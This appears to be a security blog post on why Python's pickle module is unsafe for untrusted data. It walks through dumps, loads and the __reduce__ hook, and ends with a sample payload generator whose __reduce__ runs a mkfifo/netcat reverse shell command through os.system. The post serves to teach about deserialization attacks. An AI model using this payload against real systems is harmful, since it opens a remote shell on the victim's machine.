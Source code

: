 When consulting the Python docs for pickle one cannot miss the following warning:

**`Warning: The pickle module is not secure. Only unpickle data you trust.`**

Let's have a look at how `pickle` handles your data. In Python you can serialize objects by using `pickle.dumps()`:

```python
import pickle
pickle.dumps(['pickle', 'me', 1, 2, 3])
```

The pickled representation we’re getting back from dumps will look like this:

`b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e.`

And now reading the serialized data back in...

```python
import pickle
pickle.loads(b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e.')
```

...will give us our list object back:

```python
['pickle', 'me', 1, 2, 3]
```

What is actually happening behind the scenes is that the byte-stream created by dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in.

Not every object can be serialized (e.g. file handles) and pickling and unpickling certain objects (like functions or classes) comes with restrictions. The Python docs give you a good overview of what can and cannot be pickled.

While in most cases you don’t need to do anything special to make an object “picklable”, pickle still allows you to define a custom behavior for the pickling process for your class instances.

Reading a bit further down in the docs we can see that implementing __reduce__ is exactly what we would need to get code execution, when viewed from an attacker’s perspective:

> The __reduce__() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”). [...] When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:
> * A callable object that will be called to create the initial version of the object.
> * A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. [...]

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

A sample payload generator which opens a reverse shell can be analyzed below:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
```